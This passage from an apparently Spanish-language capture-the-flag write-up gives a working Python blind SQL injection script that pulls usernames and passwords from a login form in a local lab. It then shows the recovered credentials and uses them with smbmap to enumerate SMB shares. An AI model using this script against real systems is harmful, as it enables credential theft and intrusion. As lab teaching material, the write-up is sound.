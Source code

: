 ```bash
				cols += character
				break
	return cols

def get_data():

	datos=""
	
	for position in range(1,150):
		for character in characters:

			data = f"name=a' or (select substring((select group_concat(username ,'-', passwd) from register.users),{position},1)) = '{character}'-- -&password=w&submit="
		    
			r = requests.post(main_url,data=data,headers={"Content-Type": "application/x-www-form-urlencoded"})
		
			if("Wrong" not in r.text):
				datos += character
				break
	return datos

if __name__ == '__main__':

	cols = get_num_columns()
	print(f"[+] Number of columns -> {cols}")
	
	database = get_database()
	print(f"[+] Database-> {database}")

	data = get_data()
	print(f"[+] Data-> {data}")
	
	
```

La salida :
```bash
./script.py       
[+] Number of columns -> 2
[+] Database-> register
[+] Data-> dylan-kjsdfg789fgsdf78

```

Al probar la contra no funciona, pero veo que al poner en mayúsculas puedo entrar al SMB.

Vamos a ver que podemos ver gracias a **smbmap**:

```bash
smbmap -H 172.17.0.2 -u dylan -p KJSDFG789FGSDF78     

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
```